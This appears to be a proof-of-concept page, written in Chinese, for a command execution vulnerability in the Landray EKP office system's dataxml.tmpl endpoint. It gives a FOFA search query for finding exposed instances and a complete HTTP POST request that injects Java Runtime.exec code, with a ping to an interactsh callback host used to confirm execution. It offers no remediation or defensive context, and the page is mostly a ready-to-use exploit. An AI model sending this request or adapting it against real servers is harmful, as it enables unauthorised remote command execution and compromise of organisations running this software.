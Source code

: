 # 蓝凌EKP系统dataxml.tmpl存在命令执行漏洞

蓝凌 EKP dataxml.tmpl存在命令执行漏洞。

## fofa

```python
app="Landray-OA系统"
```

## poc

```python
POST /ekp/data/sys-common/dataxml.tmpl  HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0)  Gecko/20100101 Firefox/92.0
Accept:  text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language:  zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 192

s_bean=ruleFormulaValidate&script=try {
String cmd = "ping {{interactsh-url}}";
Process child = Runtime.getRuntime().exec(cmd);
} catch (IOException e) {
System.err.println(e);
}
```

![image-20240806235929945](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408062359019.png)